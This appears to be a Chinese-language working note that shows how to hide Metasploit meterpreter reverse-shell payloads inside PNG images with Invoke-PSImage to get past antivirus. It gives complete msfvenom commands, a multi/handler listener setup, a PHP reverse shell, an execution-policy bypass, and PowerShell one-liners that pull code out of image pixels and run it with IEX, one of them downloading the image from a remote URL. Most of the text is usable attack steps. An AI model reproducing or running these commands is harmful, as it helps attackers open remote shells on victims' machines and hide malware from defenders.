


[Invoke-PSImage利用分析](https://www.4hou.com/technology/9472.html)

[msf使用参考](https://blog.csdn.net/nzjdsds/article/details/82929265)

fail

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.255.153 LPORT=2333 -f powershell  -o img.ps1 

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.255.153 LPORT=2333 -f powershell  -o img2.ps1   

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.255.153 LPORT=2333 -f powershell  -o img3.ps1  --smallest  

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.255.153 LPORT=2333 -f powershell  -o img4.ps1  --smallest   
```

success

```msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.255.153 LPORT=2333 -f psh-reflection  -o img.ps1 --smallest```

打开msf

```
use exploit/multi/handler
set LHOST 192.168.255.153
set LPORT 2333 
set PAYLOAD windows/x64/meterpreter/reverse_tcp
exploit
```

payload的选择取决于生成被控端文件用了什么模块，名字都是一样的

msfpayload php/reverse_php LHOST=x.x.x.x LPORT=2333 R > re.php

set PAYLOAD php/reverse_php

先保证msf生成的payload执行可以反弹,再把它藏在图片中

如果 powershell.ps1 不能被执行 ，修改权限：在powershell中执行 set-ExecutionPolicy RemoteSigned


打开受控端powershell,执行

```Import-Module C:\Users\Administrator\Desktop\Invoke-PSImage.ps1```

```Invoke-PSImage -Script C:\Users\Administrator\Desktop\img5.ps1 -Image C:\Users\Administrator\Desktop\q.jpg -Out C:\Users\Administrator\Desktop\ss.png```



回显

```
sal a New-Object;Add-Type -AssemblyName "System.Drawing";$g=a System.Drawing.Bitmap("C:\Users\Administrator\Desktop\ss.png");$o=a Byte[] 2960;(0..4)|%{foreach($x in(0..591)){$p=$g.GetPixel($x,$_);$o[$_*592+$x]=([math]::Floor(($p.B-band15)*16)-bor($p.G-band15))}};$g.Dispose();IEX([System.Text.Encoding]::ASCII.GetString($o[0..2778]))
```

在受控端powershell执行回显即可反弹，复现成功

原理：将不免杀的payload藏于图片中，图片是免杀的，上传图片即可。调用图片的代码也是免杀的，类似于调用包含shellcode的文件

生成的回显即为调图片的代码。也可以根据需求设置调用网页上的图片。


evil.ps1 为我写的一个在powershell中输出 test 的小脚本，用于测试使用

```$powershell -exec bypass``` 或 ```$powershell```   # 在 cmd唤起powershell

（系统默认是禁止执行ps脚本的,所以实际用的时候后面都会带上bypass选项;有权限可以直接输入powershell，无需提权）


powershell中输入如下，弹出计算器

PS $```sal a New-Object;Add-Type -AssemblyName "System.Drawing";$g=a System.Drawing.Bitmap((a Net.WebClient).OpenRead("https://raw.githubusercontent.com/3gstudent/test/master/Evilwow.png"));$o=a Byte[] 500;(0..0)|%{foreach($x in(0..499)){$p=$g.GetPixel($x,$_);$o[$_*500+$x]=([math]::Floor(($p.B-band15)*16)-bor($p.G -band 15))}};IEX([System.Text.Encoding]::ASCII.GetString($o[0..13]))```



**注意：图片像素数应大于payload字节数**

### 参考资料

[powershell攻击集](https://github.com/samratashok/nishang)

[Invoke-Mimikatz.ps1获取系统密码](https://cloud.tencent.com/info/b7a0330b78657d5b4c89a53d9e3061e4.html)


